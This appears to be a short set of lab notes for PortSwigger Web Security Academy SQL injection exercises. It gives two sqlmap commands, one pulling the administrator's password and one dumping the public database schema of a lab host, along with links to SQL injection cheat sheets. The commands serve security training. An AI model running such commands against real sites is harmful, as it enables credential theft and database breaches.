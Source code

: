 ____

```bash
sqlmap -u "URL" --cookie='lab=cookie' --level 5 --risk 3 -p param --batch --threads 10 --dbms=postgresql --sql-query="SELECT password from USERS where username='administrator'"
```

[https://tib3rius.com/sqli](https://tib3rius.com/sqli) 

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


```bash
sqlmap -u "https://0a9100e603500d0982375131006f00bc.web-security-academy.net/filter?category=Gifts" --cookie="session=7biRvfgHaUlvwd8pXfLeRYKYtYFxAkEx" --level 5 --risk 3 -p category --batch --threads 10 --dbms=postgresql --dump -D public
```






